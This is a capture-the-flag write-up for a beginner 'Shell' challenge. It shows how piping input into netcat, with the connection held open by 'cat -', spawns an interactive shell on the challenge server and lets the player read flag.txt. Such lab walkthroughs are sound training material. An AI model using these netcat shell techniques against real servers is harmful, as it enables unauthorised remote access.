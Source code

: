 # Shell
* **Event:** BepisCTF (ISSS CTF 09-06-2016)
* **Problem Type:** Binary Exploitation

## Background
[Netcat](https://en.wikipedia.org/wiki/Netcat) is an invaluable tool for testing networking and connecting to servers.

[Objdump](https://linux.die.net/man/1/objdump) Allows you to dump compiled code into readable assembly

[Pwntools](https://github.com/arthaud/python3-pwntools) is very useful when exploiting more complicated services.

[GDB](http://man7.org/linux/man-pages/man1/gdb.1.html) allows you to easily debug programs and see what is happening inside them at runtime.

## Steps
### Connect to the server with netcat
```
$ nc ctf.isss.io
This challenge is to teach you the basics of pwning with netcat.
To send input to netcat you can use a pipe on linux
For example: python3 -c "print('a'*40)" | nc ip port
This sends 40 a's to the server on some port.
Send me the integers [0,5000) each on a new line to spawn a shell.

5
```

### Pipe some stuff
We need to send a bunch of input to netcat. The challenge tells us to try piping
```
python3 -c "x=range(0,5000); print(*x, sep='\n')" | nc ctf.isss.io 9000
This challenge is to teach you the basics of pwning with netcat.
To send input to netcat you can use a pipe on linux
For example: python3 -c "print('a'*40)" | nc ip port
This sends 40 a's to the server on some port.
Send me the integers [0,5000) each on a new line to spawn a shell.

Yay you did input and spawned a shell on the target server!!
But why did nothing happen??
The command piped to netcat (python3 ...) ran out of output, so the connection to the server was killed.
Try (python3 -c "print('a'*40)"; cat -) | nc ip port
The command cat - just writes anything received on stdin to stdout.
This allows you to interact with the shell
```
We got more input this time. The challenge tells us that we need to interact with the socket after sending all our input.

### Keep connection open
```
(python3 -c "x=range(0,5000); print(*x, sep='\n')"; cat -) | nc ctf.isss.io 9000
This challenge is to teach you the basics of pwning with netcat.
To send input to netcat you can use a pipe on linux
For example: python3 -c "print('a'*40)" | nc ip port
This sends 40 a's to the server on some port.
Send me the integers [0,5000) each on a new line to spawn a shell.

Yay you did input and spawned a shell on the target server!!
But why did nothing happen??
The command piped to netcat (python3 ...) ran out of output, so the connection to the server was killed.
Try (python3 -c "print('a'*40)"; cat -) | nc ip port
The command cat - just writes anything received on stdin to stdout.
This allows you to interact with the shell
ls
flag.txt
cat flag.txt
utflag{my_sh3ll_wont_d1e}
```
